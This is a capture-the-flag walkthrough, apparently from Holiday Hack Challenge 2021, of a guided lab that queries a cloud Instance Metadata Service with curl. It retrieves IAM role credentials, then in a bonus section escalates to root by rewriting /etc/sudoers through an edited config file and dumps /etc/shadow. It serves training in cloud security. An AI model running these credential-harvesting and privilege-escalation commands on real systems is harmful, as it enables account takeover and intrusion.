 # IMDS Exploration
**Location: Restroom, Frost Tower, 16<sup>th</sup> Floor**  
**Troll: Noxious O. D'or**

This objective is a training about what data could be retrieved from the Instance Metadata Service (IMDS) in cloud environments.
It is a completely guided exercise.
```bash
elfu@c27f40ac7165:~$ ping -c1 169.254.169.254
```
```
PING 169.254.169.254 (169.254.169.254) 56(84) bytes of data.
64 bytes from 169.254.169.254: icmp_seq=1 ttl=64 time=0.014 ms

--- 169.254.169.254 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.014/0.014/0.014/0.000 ms
```
---
```bash
elfu@c27f40ac7165:\~$ next
elfu@c27f40ac7165:\~$ curl http://169.254.169.254/latest
```
```
dynamic
meta-data
```
---
```bash
elfu@c27f40ac7165:\~$ curl http://169.254.169.254/latest/dynamic
```
```
fws/instance-monitoring
instance-identity/document
instance-identity/pkcs7
instance-identity/signature
```
---
```bash
elfu@c27f40ac7165:\~$ curl http://169.254.169.254/latest/dynamic/instance-identity/document
```
```json
{
        "accountId": "PCRVQVHN4S0L4V2TE",
        "imageId": "ami-0b69ea66ff7391e80",
        "availabilityZone": "np-north-1f",
        "ramdiskId": null,
        "kernelId": null,
        "devpayProductCodes": null,
        "marketplaceProductCodes": null,
        "version": "2017-09-30",
        "privateIp": "10.0.7.10",
        "billingProducts": null,
        "instanceId": "i-1234567890abcdef0",
        "pendingTime": "2021-12-01T07:02:24Z",
        "architecture": "x86_64",
        "instanceType": "m4.xlarge",
        "region": "np-north-1"
}
```
---
```bash
elfu@c27f40ac7165:\~$ curl http://169.254.169.254/latest/dynamic/instance-identity/document | jq
```
```json
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   451  100   451    0     0   440k      0 --:--:-- --:--:-- --:--:--  440k
{
  "accountId": "PCRVQVHN4S0L4V2TE",
  "imageId": "ami-0b69ea66ff7391e80",
  "availabilityZone": "np-north-1f",
  "ramdiskId": null,
  "kernelId": null,
  "devpayProductCodes": null,
  "marketplaceProductCodes": null,
  "version": "2017-09-30",
  "privateIp": "10.0.7.10",
  "billingProducts": null,
  "instanceId": "i-1234567890abcdef0",
  "pendingTime": "2021-12-01T07:02:24Z",
  "architecture": "x86_64",
  "instanceType": "m4.xlarge",
  "region": "np-north-1"
}
```
---
```bash
elfu@c27f40ac7165:\~$ next
elfu@c27f40ac7165:\~$ curl http://169.254.169.254/latest/meta-data
```
```
ami-id
ami-launch-index
[...]
```
---
```bash
elfu@c27f40ac7165:\~$ curl http://169.254.169.254/latest/meta-data/public-hostname
```
```
ec2-192-0-2-54.compute-1.amazonaws.com
```
---
```bash
elfu@c27f40ac7165:\~$ curl http://169.254.169.254/latest/meta-data/public-hostname; echo
```
```
ec2-192-0-2-54.compute-1.amazonaws.com
```
---
```bash
elfu@c27f40ac7165:\~$ curl http://169.254.169.254/latest/meta-data/iam/security-credentials; echo
```
```
elfu-deploy-role
```
---
```bash
elfu@c27f40ac7165:\~$ curl http://169.254.169.254/latest/meta-data/iam/security-credentials/elfu-deploy-role;echo
```
```json
{
        "Code": "Success",
        "LastUpdated": "2021-12-02T18:50:40Z",
        "Type": "AWS-HMAC",
        "AccessKeyId": "AKIA5HMBSK1SYXYTOXX6",
        "SecretAccessKey": "CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX",
        "Token": "NR9Sz/7fzxwIgv7URgHRAckJK0JKbXoNBcy032XeVPqP8/tWiR/KVSdK8FTPfZWbxQ==",
        "Expiration": "2026-12-02T18:50:40Z"
}
```
---
```bash
elfu@c27f40ac7165:\~$ next
elfu@c27f40ac7165:\~$ cat gettoken.sh
```
```
TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"`
```
---
```bash
elfu@c27f40ac7165:\~$ source gettoken.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    44  100    44    0     0  44000      0 --:--:-- --:--:-- --:--:-- 44000
```
---
```
elfu@c27f40ac7165:\~$ echo $TOKEN
Uv38ByGCZU8WP18PmmIdcpVmx00QA3xNe7sEB9Hixkk=
elfu@c27f40ac7165:\~$ curl -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/placement/region; echo
np-north-1e
```

### Bonus: Root Access to Terminal (variant 1)

Suspend the session in the bottom pane with CTRL-Z
```
init@c22e7dc1a1f1:~$ cp questions_answers.json questions_answers.json2
init@c22e7dc1a1f1:~$ mv questions_answers.json2 questions_answers.json
mv: replace 'questions_answers.json', overriding mode 0644 (rw-r--r--)? y
init@c22e7dc1a1f1:~$ vi questions_answers.json
``` 
Change file to re-create the sudoers file with sudo to root permissions for the user elfu:
```
 "questions":[
{
  "cmds_on_begin":[
    "sudo /opt/imds/imds.sh 2>&1 >/tmp/.imds.log &",
    "sudo rm /etc/sudoers",
    "echo 'elfu ALL=(ALL) NOPASSWD: ALL' >> /etc/sudoers"
],
```
Next the tmux session has to be renamed:  
CTRL-B
`:rename-session -t ElfU e`  
Finally, a new session is started:  
```
init@c22e7dc1a1f1:~$ tmuxp load mysession.yaml
[Loading] /home/init/mysession.yaml
Already inside TMUX, switch to session? yes/no
Or (a)ppend windows in the current active session?
[y/n/a]: y
elfu@c22e7dc1a1f1:~$ sudo bash
root@c22e7dc1a1f1:/home/elfu# id
uid=0(root) gid=0(root) groups=0(root)
root@c22e7dc1a1f1:/home/elfu# cat /etc/shadow
root:$6$PzcpSOrlQdaqyDbS$Y3pZzo53tSYHpf4uFhwYvQ3HR/z04hDhNlL4dwfGmef2oleaLsg7q.kaGAbD3fUTGKSc.3h3vNssC9Kt3HjdN.:18954:0:99999:7:::
```
  
**Achievement: IMDS Exploration**  
The Troll provides hints for [objective 10](https://github.com/joergschwarzwaelder/hhc2021/tree/master/Objective-10):  
**Hint: AWS IMDS Documentation**
